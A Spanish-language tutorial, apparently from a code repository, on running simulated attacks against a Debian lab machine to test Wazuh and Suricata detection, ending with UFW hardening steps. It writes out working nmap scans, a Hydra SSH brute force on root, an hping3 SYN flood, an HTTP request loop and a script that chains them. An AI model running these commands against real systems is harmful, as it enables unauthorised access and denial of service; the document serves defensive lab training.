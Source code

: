 # 🔹 Automatización de ataques y defensa en Debian 12/13

## 1. Preparar la máquina atacante

En una VM con Debian 12/13 instala herramientas para generar tráfico malicioso:

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y nmap hydra metasploit-framework hping3 curl git
```

- **nmap** → escaneo de puertos y servicios.
- **hydra** → ataques de fuerza bruta (SSH, FTP, MySQL).
- **metasploit** → explotación de vulnerabilidades conocidas.
- **hping3** → simulación de DoS/DDoS con paquetes TCP/UDP/ICMP.
- **curl/wget** → peticiones HTTP repetitivas contra endpoints.

---

## 2. Ejemplos de ataques automatizados

### Escaneo de puertos (detectado por Suricata/Wazuh):

```bash
nmap -sS -p- 192.168.1.50
```

### Ataque de fuerza bruta SSH:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.50
```

### Simular DDoS (SYN flood):

```bash
sudo hping3 -S --flood -V -p 80 192.168.1.50
```

### Petición masiva contra servicio web:

```bash
while true; do curl -s http://192.168.1.50 > /dev/null; done
```

---

## 3. Integración con Wazuh

Cuando ejecutes estos ataques, el **Agente Wazuh** en la máquina víctima enviará eventos al Manager:

- **Escaneos** → alertas de reconocimiento.
- **Fuerza bruta** → detección de múltiples intentos fallidos.
- **DDoS** → anomalías de red.
- **Peticiones HTTP** → patrones sospechosos en logs de Apache/Nginx.

---

## 4. Automatización con scripts

Puedes crear un script Bash para lanzar varios ataques uno tras otro:

```bash name=ataque_auto.sh
#!/bin/bash
# ataque_auto.sh - Simulación de ataques
VICTIMA="192.168.1.50"

echo "[*] Escaneo de puertos con nmap"
nmap -sS -p- $VICTIMA

echo "[*] Fuerza bruta SSH con Hydra"
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://$VICTIMA -t 4 -f

echo "[*] Simulando DDoS con hping3"
hping3 -S --flood -V -p 80 $VICTIMA
```

---

## 5. Defensa en Debian 12/13

**En la máquina víctima (con Wazuh Agent):**

Instala y habilita UFW para bloquear IPs sospechosas:

```bash
sudo apt install ufw -y
sudo ufw enable
sudo ufw allow ssh
sudo ufw allow 1514/udp   # comunicación con Wazuh Manager
sudo ufw allow 1515/tcp
sudo ufw status
```

Configura **Active Responses** en Wazuh para que bloquee automáticamente al atacante tras X intentos.

---
